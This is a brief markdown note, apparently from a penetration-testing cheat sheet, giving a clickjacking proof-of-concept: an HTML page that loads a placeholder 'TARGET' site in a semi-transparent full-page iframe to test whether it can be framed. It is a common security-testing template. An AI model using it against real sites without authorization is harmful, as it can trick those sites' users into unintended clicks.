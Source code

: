# Clickjacking

## Clickjacking PoC
```hmtl
<!DOCTYPE html>
<html>
<head>
<title>Clickjacking PoC</title>
</head>
<body>
<iframe src="http://TARGET/" width=100% height=100% style=”opacity: 0.5;”></iframe>
</body>
</html>
```
